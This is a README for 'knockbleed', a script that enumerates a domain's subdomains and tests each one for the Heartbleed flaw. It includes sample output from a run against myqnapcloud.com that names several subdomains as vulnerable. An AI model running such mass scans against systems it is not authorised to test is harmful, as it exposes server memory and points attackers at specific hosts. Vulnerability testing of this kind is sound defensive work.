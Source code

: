 knockbleed
==========

CVE-2014-0160 mass test against subdomains

Requirement:
* Knock Subdomain Scan by Gianni 'guelfoweb' Amato - https://github.com/guelfoweb/knock
* check-ssl-heartbleed by Steffen Ullrich - https://github.com/noxxi/p5-scripts
* perl
* python

Usage:

    sid@sweethome:~$ ./knockbleed.sh myqnapcloud.com


Output
======

    sid@sweethome:~$ ./knockbleed.sh myqnapcloud.com
    
    Testing access.myqnapcloud.com:443 ...
    Testing adam.myqnapcloud.com:443 ...
    Testing ads.myqnapcloud.com:443 ...
    Testing adsl.myqnapcloud.com:443 ...
    Testing agent.myqnapcloud.com:443 ...
    Testing ajax.myqnapcloud.com:443 ...
    Testing alpha.myqnapcloud.com:443 ... BAD! got 16384 bytes back instead of 3 (vulnerable)
    Testing anaheim.myqnapcloud.com:443 ... BAD! got 16384 bytes back instead of 3 (vulnerable)
    Testing analyzer.myqnapcloud.com:443 ...
    Testing apollo.myqnapcloud.com:443 ...
    Testing app.myqnapcloud.com:443 ... BAD! got 16384 bytes back instead of 3 (vulnerable)
    Testing apple.myqnapcloud.com:443 ...
    Testing as400.myqnapcloud.com:443 ...
    Testing asia.myqnapcloud.com:443 ...
    Testing athena.myqnapcloud.com:443 ...
    Testing atlas.myqnapcloud.com:443 ...
    Testing austin.myqnapcloud.com:443 ...
    Testing auto.myqnapcloud.com:443 ...
    Testing backup.myqnapcloud.com:443 ...
    Testing baltimore.myqnapcloud.com:443 ... BAD! got 16384 bytes back instead of 3 (vulnerable)
    Testing bbs.myqnapcloud.com:443 ... BAD! got 16384 bytes back instead of 3 (vulnerable)
    Testing bea.myqnapcloud.com:443 ...
    Testing beta.myqnapcloud.com:443 ... BAD! got 16384 bytes back instead of 3 (vulnerable)
    Testing biz.myqnapcloud.com:443 ...
    Testing black.myqnapcloud.com:443 ...
    Testing blog.myqnapcloud.com:443 ...
    Testing blue.myqnapcloud.com:443 ...
